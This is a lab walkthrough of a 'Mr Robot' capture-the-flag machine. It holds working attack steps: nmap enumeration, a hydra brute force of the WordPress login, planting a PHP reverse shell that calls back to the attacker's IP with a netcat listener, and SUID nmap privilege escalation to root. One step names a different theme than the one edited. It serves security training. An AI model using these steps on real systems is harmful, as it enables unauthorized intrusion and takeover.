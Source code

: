 # Mr Robot


WORK IN PROGRESS


### Find Own Host

		inet 192.168.30.131  netmask 255.255.255.0  broadcast 192.168.30.255

### Find machine

		nmap 192.168.30.0/24

>Nmap scan report for 192.168.30.130
Host is up (0.00050s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

### Adding to hosts for convenience

		echo 192.168.30.130 mrrobot >> /etc/hosts

### Enumerate website (can add -p 80 to speed things up since we only want to enumerate port 80)

		nmap -A --script=http-enum mrrobot

>PORT    STATE  SERVICE VERSION
22/tcp  closed ssh
80/tcp  open   http    Apache httpd
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /feed/: Wordpress version: 4.3.17
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-server-header: Apache
443/tcp open   ssl/ssl Apache httpd (SSL-only mode)
| http-enum: 
|   /admin/: Possible admin folder
|   /admin/index.html: Possible admin folder
|   /wp-login.php: Possible admin folder
|   /robots.txt: Robots file
|   /readme.html: Wordpress version: 2 
|   /feed/: Wordpress version: 4.3.17
|   /wp-includes/images/rss.png: Wordpress version 2.2 found.
|   /wp-includes/js/jquery/suggest.js: Wordpress version 2.5 found.
|   /wp-includes/images/blank.gif: Wordpress version 2.6 found.
|   /wp-includes/js/comment-reply.js: Wordpress version 2.7 found.
|   /wp-login.php: Wordpress login page.
|   /wp-admin/upgrade.php: Wordpress login page.
|   /readme.html: Interesting, a readme.
|   /0/: Potentially interesting folder
|_  /image/: Potentially interesting folder
|_http-server-header: Apache
MAC Address: 00:0C:29:8B:05:80 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11
Network Distance: 1 hop

stuff like dirbuster or gobuster work just as well

### Robots.txt

		curl mrrobot/robots.txt

>User-agent: *
fsocity.dic
key-1-of-3.txt

### Create desktop folder to store my shit, and download the first key and dic file

		cd ~/Desktop
		mkdir mrrobot
		wget mrrobot/fsocity.dic
		wget mrrobot/key-1-of-3.txt
		cat key-1-of-3.txt

>073403c8a58a1f80d943455fb30724b9

### The dictionary file

See how long the file is

		wc fsocity.dic
		
		or
		
		wc -l fsocity.dic

>858160 fsocity.dic

Holy shit. Remove uniques

		cat fsocity.dic | sort | uniq > filtered.txt
		wc -l filtered.txt

>11451 filtered.txt

Much better.

### WP Login

Browse to:

		mrrobot/wp-login.php

We have a form! Take note of the value naming. 'log' and 'pwd'

View source:

		<form name="loginform" id="loginform" action="http://mrrobot/wp-login.php" method="post">
	<p>
		<label for="user_login">Username<br/>
		<input type="text" name="log" id="user_login" class="input" value="" size="20"/></label>
	</p>
	<p>
		<label for="user_pass">Password<br/>
		<input type="password" name="pwd" id="user_pass" class="input" value="" size="20"/></label>
	</p>
		<p class="forgetmenot"><label for="rememberme"><input name="rememberme" type="checkbox" id="rememberme" value="forever"/> Remember Me</label></p>
	<p class="submit">
		<input type="submit" name="wp-submit" id="wp-submit" class="button button-primary button-large" value="Log In"/>
		<input type="hidden" name="redirect_to" value="http://mrrobot/wp-admin/"/>
		<input type="hidden" name="testcookie" value="1"/>
	</p>
</form>


Try logging in

		user: admin
		pass: admin

>ERROR: Invalid Username

What about mrrobot's show character(s)?(yeah this part is not fully useable irl but hey)

		user: elliot
		pass: elliot

>ERROR: The password you entered for the username elliot is incorrect.

So username is elliot. bruteforce the form with hydra



		hydra mrrobot http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^:Error" -l elliot -P filtered.txt

>[80][http-post-form] host: mrrobot   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found


### Upload Reverse shell script

Check themes, what is currently active?

    Appearance > Themes
    
Edit a 404.php page

    Appearance > editor > (select a non active theme. here I use twentysixteen) > 404 template(404.php)
    
Copy and paste Pentestmonkey PHP Reverse Shell script. (Don't forget to set the local port and ip! Here I use port 7777)
    
    (Modify this stuff)
    $ip = '192.168.30.131'; //CHANGE THIS
    $port = '7777'; //CHANGE THIS




### Set up a listener

		nc -lvp 7777

### Access the page to get reverse shell running (can also just access in browser)

		
		curl mrrobot/wp-content/themes/twentyfourteen/404.php


Find SUID bits

		find / -perm -u=s -type f 2>/dev/null


there's nmap!

		nmap --interactive
		!bash -p
		whoami



why nmap? google for "gtfobins". if you have suid or sudo permissions, that webside will tell you if you can use it to priv esc
